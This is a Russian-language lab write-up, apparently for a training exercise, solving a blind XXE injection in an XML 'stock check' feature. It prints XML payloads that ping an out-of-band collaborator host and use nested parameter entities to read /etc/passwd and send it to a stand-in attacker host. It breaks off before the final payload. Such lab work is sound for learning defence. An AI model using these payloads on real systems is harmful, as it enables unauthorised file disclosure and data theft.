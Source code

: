 В этой лабораторной работе есть функция «Проверка запасов», которая анализирует входные данные XML, но не отображает результат.

Чтобы решить лабораторную работу, извлеките содержимое файла `/etc/hostname`.

## Дано

уязвимость  функция «Проверка запасов»
не отображает результат инъекция

## Задача

извлеките содержимое файла `/etc/hostname`.

# Решение

- Запросов
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```

- тест dtd
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ 
	<!ENTITY xxe test "test> 
]>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```
- "XML parsing error"

- проверим на всякий случай пинг 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ 
	<!ENTITY % xxe SYSTEM "https://5hnuzib2b14c93c2jujnrgghn8t0hr8fx.oastify.com"> 
	%xxe;
]>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```
- есть

- теперь формируем двойную сущность
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ 
	<!ENTITY % file SYSTEM "file:///etc/passwd"> 
	<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>"> 
%eval; 
%exfiltrate;
]>
<stockCheck>
	<productId>1</productId>
	<storeId>1</storeId>
</stockCheck>
```
ответ "Entities are not allowed for security reasons"

- делаем нагрузку полезную на стороне сервера

